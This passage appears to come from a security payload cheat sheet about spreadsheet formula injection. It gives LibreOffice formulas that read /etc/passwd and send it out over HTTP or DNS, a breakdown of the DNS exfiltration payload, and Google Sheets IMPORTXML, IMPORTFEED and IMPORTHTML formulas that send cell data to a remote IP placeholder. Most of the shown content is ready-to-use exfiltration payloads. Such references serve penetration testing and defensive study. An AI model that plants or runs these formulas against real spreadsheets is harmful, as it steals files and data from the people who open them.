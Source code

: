 * This will read the 1st line from the local /etc/passwd file: `='file:///etc/passwd'#$passwd.A1`
* Ex-filtrate it: `=WEBSERVICE(CONCATENATE("http://:8080/",('file:///etc/passwd'#$passwd.A1)))`
* Ex-filtrate more than one line: `=WEBSERVICE(CONCATENATE("http://:8080/",('file:///etc/passwd'#$passwd.A1)&CHAR(36)&('file:///etc/passwd'#$passwd.A2)))`
* DNS Exfiltration: `=WEBSERVICE(CONCATENATE((SUBSTITUTE(MID((ENCODEURL('file:///etc/passwd'#$passwd.A19)),1,41),"%","-")),"."))`

**Analyzing the DNS ex-filtration payload:**

* ‘file:///etc/passwd’#$passwd.A19 – Will read the 19th line from the local /etc/passwd file
* ENCODEURL(‘file:///etc/passwd’#$passwd.A19) – URL encode the returned data
* MID((ENCODEURL(‘file:///etc/passwd’#$passwd.A19)),1,41) – Similar to substring, read data from 1st character to 41st – a very handy way to restrict the length of DNS hostnames (254 character limit on FQDN and 63 characters for a label, i.e. subdomain)
* SUBSTITUTE(MID((ENCODEURL(‘file:///etc/passwd’#$passwd.A19)),1,41),”%”,”-“) – replace all instances of % (the special character from URL encoding) with dash – this is ensure that only valid DNS characters are used
* CONCATENATE((SUBSTITUTE(MID((ENCODEURL(‘file:///etc/passwd’#$passwd.A19)),1,41),”%”,”-“)),”.\<FQDN>”) – Concatenate the output from the file (after the above processing has taken place) with the FQDN (for which we have access to the host that is authoritative for the domain)
* WEBSERVICE – Will make a request for this non-existent DNS name which we can then parse the logs (or run tcpdump etc.) on the DNS authoritative name server for which we have control

### Google Sheets OOB Data Exfiltration

Firstly, let’s introduce some of the more interesting functions.

**CONCATENATE**: Appends strings to one another.

```
=CONCATENATE(A2:E2)
```

**IMPORTXML**: Imports data from various structured data types including XML, HTML, CSV, TSV, and RSS and ATOM XML feeds.

```
=IMPORTXML(CONCAT("http://[remote IP:Port]/123.txt?v=", CONCATENATE(A2:E2)), "//a/a10")
```

**IMPORTFEED**: Imports a RSS or ATOM feed.

```
=IMPORTFEED(CONCAT("http://[remote IP:Port]//123.txt?v=", CONCATENATE(A2:E2)))
```

**IMPORTHTML**: Imports data from a table or list within an HTML page.

```
=IMPORTHTML (CONCAT("http://[remote IP:Port]/123.txt?v=", CONCATENATE(A2:E2)),"table",1)
```

**IMPORTRANGE**: Imports a range of cells from a specified spreadsheet.

```
=IMPORTRANGE("https://docs.google.com/spreadsheets/d/[Sheet_Id]", "sheet1!A2:E2")
```

**IMAGE**: Inserts an image into a cell.
